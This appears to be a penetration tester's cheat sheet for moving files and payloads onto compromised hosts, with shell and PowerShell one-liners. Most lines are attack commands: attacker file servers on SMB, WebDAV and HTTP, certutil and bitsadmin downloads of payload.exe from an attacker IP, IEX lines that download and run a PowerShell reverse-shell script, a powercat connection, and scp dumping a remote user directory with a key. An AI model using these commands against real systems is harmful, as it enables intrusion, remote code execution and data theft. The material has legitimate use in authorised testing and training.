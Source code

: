 ```bash
ip a && ls -la && python3 -m http.server 8443
wsgidav --port=80 --host=192.168.45.231 --root=/tmp --auth=anonymous
impacket-smbserver -ip 192.168.45.231 share $(pwd) -smb2support  -username user -password pass
```

With the luxury of `ssh`
```bash
# Copy a local file to remote host 
scp <file> <user>@<host>:<dest>

# dump user directory with wildcard *
scp -i id_rsa user@10.10.10.10:* . 

# To copy a file from a remote server to your local machine:
scp -P $portnumber <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```

Windows Infil
```powershell
# The wonder that is certutil
certutil.exe -urlcache -split -f http://192.168.45.231:8443/CLIENTWK1.exe  C:\programdata\Word.exe
# Bitsadmin beware syntax between versions
bitsadmin /create 1 bitsadmin /addfile 1 http://Attacker_IP/payload.exe c:\Users\Guest\Desktop\payload.exe bitsadmin /RESUME 1 bitsadmin /complete 1


# SMB server with impacket
$pass = convertto-securestring 'stupid' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('idiot', $pass)
New-PSDrive -Name idiot -PSProvider FileSystem -Credential $cred -Root \\$IP\share
# with copy
copy \$IP\ROPNOP\exploit.exe
# Or xcopy
xcopy \\$ip\scriptserver\$scriptname-here
# OR for XP
net use H: \\$IP\$sharename /persistent:no
# You can add /user:$user password - not figure that out yet 
net use H: /Delete # To delete

# IWR
iwr -uri http://192.168.45.231:8443/winPEASx64.exe -Outfile winPEAS.exe
# -UseBasicParsing is deprecated as of powershell 6.0.0, running with in 6 has no affect 
Invoke-WebRequest http://10.10.10.10/bad.exe -UseBasicParsing
IEX(IWR http://10.10.10.10/Invoke-PowerShellTcp.ps1 -UseBasicParsing)

# Powercat
powercat -c 10.10.10.10 -p 54321 -i C:\Users\Administrator\powercat.ps1

# PowerShell New-Object System.Net.WebClient
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$bad.exe','$bad.exe')
# powershell required
IEX(New-Object System.Net.WebClient).DownloadString('http://$IP:$PORT/$bad.exe')

# Non Interactive PowerShell
echo $storageDir = $pwd > wget.ps1   
echo $webclient = New-Object System.Net.WebClient >> wget.ps1   
echo $url = "http://$IP:$PORT/$bad.exe" >> wget.ps1   
```